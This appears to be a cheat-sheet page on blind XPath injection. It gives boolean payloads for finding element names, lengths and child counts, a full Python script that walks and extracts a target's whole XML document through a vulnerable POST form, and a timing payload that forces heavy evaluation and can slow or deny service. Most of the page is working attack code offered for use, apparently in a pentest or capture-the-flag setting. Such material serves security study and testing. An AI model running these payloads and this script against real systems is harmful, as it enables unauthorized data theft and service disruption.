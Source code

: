 # XPath - Blind Exploitation

When results are not rendered, use boolean conditions that flip the app's response to leak bits (like blind SQLi). You need any observable difference: success vs error text, status code, or measurable processing time.

## Core Boolean Pattern

Assume input lands in a predicate on `username`:

```xpath
/users/user[username='<INPUT>']
```

Inject a universally true clause:

```text
invalid' or '1'='1
```

If the app reports "success" for the injected value, you confirmed XPath injection (blind).

## Name Length, Name, and Children Count

Use XPath functions in boolean checks:

- Length of root element name:

```text
invalid' or string-length(name(/*[1]))=L and '1'='1
```

- Character-by-character name of a node:

```text
invalid' or substring(name(/*[1]),POS,1)='a' and '1'='1
```

- Number of children:

```text
invalid' or count(/users/*)=N and '1'='1
```

Iterate `L`, `POS`, `N` until the response flips to "success".

## Enumerating Schema

- Start at `/*[1]`.
- Determine name and `count(/*)`.
- Recurse into each child `/*[i]`.

## Automating (Python template)

```python
import requests, sys, string

URL = "http://<SERVER_IP>:<PORT>/index.php"
POSITIVE_STRING = "Message successfully sent!"  # tweak to your app

# returns True on positive response
def inject(expr: str) -> bool:
	payload = f"invalid' or {expr} and '1'='1"
	r = requests.post(URL, data={ 'username': payload, 'message': 'x' })
	return POSITIVE_STRING in r.text

def exfiltrate_length(subquery: str, max_length: int = 128) -> int:
	for i in range(max_length + 1):
		if inject(f"string-length({subquery})={i}"):
			return i
	raise RuntimeError(f"length not found for {subquery}")

def exfiltrate_text(subquery: str) -> str:
	L = exfiltrate_length(subquery)
	out = []
	alphabet = string.printable  # narrow if needed
	for i in range(L):
		for ch in alphabet:
			if inject(f"substring({subquery},{i+1},1)='{ch}'"):
				out.append(ch)
				break
	return ''.join(out)

def exfiltrate_children_count(base: str, max_children: int = 128) -> int:
	for i in range(max_children + 1):
		if inject(f"count({base})={i}"):
			return i
	raise RuntimeError(f"children count not found for {base}")

def walk_schema(base: str = '/*[1]', depth: int = 0):
	name = exfiltrate_text(f"name({base})")
	n = exfiltrate_children_count(base + '/*')
	print(' ' * depth + f"<{name}>")
	if n == 0:
		data = exfiltrate_text(base)
		print(' ' * (depth + 1) + data)
	else:
		for i in range(1, n + 1):
			walk_schema(f"{base}/*[{i}]", depth + 1)
	print(' ' * depth + f"</{name}>")

if __name__ == '__main__':
	print('Exfiltrating XML document (blind):')
	walk_schema('/*[1]')
```

## Time-based Signal (when responses are identical)

XPath has no `sleep()`, but you can force heavy evaluation to create measurable delay when a condition is true:

```text
invalid' or substring(/users/user[1]/username,1,1)='a' and count((//.)[count(//.)]) and '1'='1
```

- If the substring condition is true, `count((//.)[count(//.)])` triggers exponential traversal and slows the response.
- If false, that branch is skipped (short-circuit), response remains fast.

Increase nested `count()` stacks for small documents, but beware of DoS on large ones.

## Practical Tips

- Stabilize the positive/negative signal (match exact success text, status code, or timing threshold).
- URL-encode payloads when needed; prefer POST to avoid length limits.
- Narrow `string.printable` to speed up (e.g., `ascii_letters + digits + '{}_:-@./'`).
- Cache intermediary findings (lengths, partial names) to resume interrupted runs.
- Redact secrets/flags from notes; store sensitive outputs separately.
